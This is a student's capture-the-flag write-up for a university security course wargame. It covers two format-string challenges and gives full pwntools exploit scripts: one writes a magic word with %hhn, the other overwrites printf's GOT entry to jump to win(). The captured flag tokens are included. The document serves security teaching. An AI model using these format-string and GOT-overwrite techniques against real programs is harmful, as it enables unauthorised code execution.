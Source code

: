# COMP6447 Wargame 4
Written by WENG XINN CHOW (z5346077) on 27.06.2022

meme
=========================== 
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNC1tZW1lIiwiaXAiOiIxMjMuMjU0LjExNS4xMDIiLCJzZXNzaW9uIjoiZDE5YTdjMTEtY2JmZi00YWJkLWI1YzktYWZjMDU5NzI3ZTVhIn0.Es1rQyUbbdmPinT3KIAqcyTfnHkLoR-icGvOWmaVQtM}

General overview of problems faced 
------------------------------------- 
1. Had to find the magic word, "MEME". This can be done via ```binary ninja```. 
2. Once I got the word, I had to find the offset of the user input on the stack by using ```%x```, which in this case, is 2. 
3. Had to learn different types of format strings, especially ```%x``` and ```$hhn``` to ensure the payload was sent correctly. 
4. Had to figure out bytes needed to write each letter in the magic word. When writing a smaller letter (in ASCII) than the previous letter, we need to add ```0x100 (256 in decimal)``` to the hex of the letter to wrap around. 

Script/Command used 
------------------ 
``` 
from pwn import *

# p = process("./meme")
host = "comp6447.wtf"
port = 29835
p = remote(host, port)

p.recvline()
p.recvuntil(b'at ')
target_addr = p.recvuntil(b'\n')[:-1]
target_addr = int(target_addr, 16)

# To obtain the perfect address on stack
payload = b' '
payload += p32(target_addr)
# payload += b'%2$s'
payload += p32(target_addr + 1)
payload += p32(target_addr + 2)
payload += p32(target_addr + 3)

# Offset is 2 so the argument starts from 2 
bytes_write_M = ord('M') - len(payload)
payload += f"%{bytes_write_M}x%2$hhn".encode()

# wrap around since E < M
bytes_write_E = 0x100 + ord('E') - ord('M')
payload += f"%{bytes_write_E}x%3$hhn".encode() 

bytes_write_M2 = 0x100 + ord('M') - ord('E')
payload += f"%{bytes_write_M2}x%4$hhn".encode() 
# warp around since E < M
bytes_write_E2 = 0x200 + ord('E') - ord('M')
payload += f"%{bytes_write_E2}x%5$hhn".encode() 

p.sendline(payload)

p.interactive() 
```
formatrix
=========================== 
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNC1mb3JtYXRyaXgiLCJpcCI6IjEyMy4yNTQuMTE1LjEwMiIsInNlc3Npb24iOiIzZWNhZGM2NC1mMTI4LTQ4OTItOGU2Mi04MzM2YjFiNTczZTkifQ.9GFpUctQmj1R2Quf4xUY_2KOde1kcgDjPAa27pxwzAk}

General overview of problems faced 
------------------------------------- 
1. Had to overwrite functions in the GOT table. In this case, I used ```printf``` as it wouldn't alter the process before the win function. 
2. The hardest part was to figure out the GOT address of the function, since I have been stuck there for a long time, thinking that the PLT address is the GOT address. In fact, the GOT address is the address that was called from PLT. 
3. Had to find the ```win()``` address using ```objdump```, which is straightforward.
4. Once we got the ```win()``` address, we need to overwrite the address stored in ```printf``` by the ```win()``` address.  

Script/Command used 
------------------ 
``` 
from pwn import * 

# p = process("./formatrix")
host = "comp6447.wtf"
port = 13742
p = remote(host, port)

p.recvlines(15)
p.recvuntil(b': ')[:-1]

printf = 0x8049c18
win = 0x08048536

payload = p32(printf)
payload += p32(printf + 1)
payload += p32(printf + 2)
payload += p32(printf + 3)

bytes_write_36 = 0x36 - len(payload)
payload += f"%{bytes_write_36}x%3$n".encode()

bytes_write_85 = 0x85 - 0x36
payload += f"%{bytes_write_85}x%4$n".encode()

bytes_write_04 = 0x100 + 0x04 - 0x85
payload += f"%{bytes_write_04}x%5$n".encode()

bytes_write_08 = 0x200 + 0x08 - 0x104
payload += f"%{bytes_write_08}x%6$n".encode()

p.sendline(payload)

p.interactive()```